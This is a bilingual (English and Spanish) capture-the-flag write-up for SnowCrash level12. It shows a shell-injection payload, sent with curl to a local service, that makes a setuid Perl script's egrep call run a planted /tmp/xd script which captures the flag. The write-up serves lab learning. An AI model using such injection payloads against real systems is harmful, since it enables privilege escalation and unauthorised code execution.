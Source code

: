 ### LEVEL12 (BONUS)

- We have a Perl script.
    ```bash
    evel12@SnowCrash:~$ ls -la
    [...]
    -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
    [...]
    ```

- The only interesting thing I see in the script code is this line:
    ```perl
    [...]
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    [...]
    ```

- This line performs an egrep with the first parameter of the query, and here is where the attack vector lies.

- The first parameter is processed to convert it to uppercase and remove spaces.
    ```perl
    [...]
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    [...]
    ```

- I'm thinking of trying to inject something into the parameter to bypass the egrep and edit a file `/tmp/xd` to execute code.

- The first step is to create the file `/tmp/xd`.
    ```bash
    level12@SnowCrash:~$ vi /tmp/xd
    #!/bin/bash
    /bin/getflag > /tmp/a
    ```

- We give permissions to the file `/tmp/xd` (important).

- Now comes the injection `"|1>&2"` leaving the line:
    ```perl
    @output = egrep ""|1>&2"" /tmp/xd 2>&1
    ```

- We pass it through `curl`.
    ```bash
    curl 'http://127.0.0.1:4646/?x="|1>&2"'
    ```

- It doesn't work because the character `&` needs to be URL encoded as `%26`, resulting in the injection `"|1>%262"`.
    ```bash
    curl 'http://127.0.0.1:4646/?x="|1>%262"'
    ```

- Now 
    ```bash
    cat /tmp/a
    ```

- Done.

---

### LEVEL12 (BONUS)

- Tenemos un scrip en perl
    ```bash
    evel12@SnowCrash:~$ ls -la
    [...]
    -rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
    [...]
    ```

- Lo unico interesante que veo en el codigo del script es esta línea:
    ```perl
    [...]
    @output = `egrep "^$xx" /tmp/xd 2>&1`;
    [...]
    ```

- Esta línea hace un egrep con el primer parametro de la consulta y aquí es donde está el vector de ataque

- El primer parametro es tratado para ponerlo en uppercase y quitar espacios
    ```perl
    [...]
    $xx =~ tr/a-z/A-Z/;
    $xx =~ s/\s.*//;
    [...]
    ```

- Se me ocurre intentar inyectar algo en el parametro para poder saltar el egrep y editar un archivo /tmp/xd para ejecutar condigo

- Lo primero es crear el archivo `/tmp/xd`
    ```bash
    level12@SnowCrash:~$ vi /tmp/xd
    #!/bin/bash
    /bin/getflag > /tmp/a
    ```

- Damos permisos al archivo `/tmp/xd` (importante)

- Ahora queda la inyeccióm `"|1>&2"` quedando la línea 
    ```perl
    @output = egrep ""|1>&2"" /tmp/xd 2>&1
    ```

- Se lo paso por `curl`
    ```bash
    curl 'http://127.0.0.1:4646/?x="|1>&2"'
    ```

- No funciona porque el caracter `&` hay que urlncoder `%26` quedando la inyeccioón `"|1>%262"`
    ```bash
    curl 'http://127.0.0.1:4646/?x="|1>%262"'
    ```

- Ahora 
    ```bash
    cat /tmp/a
    ```

- Listo
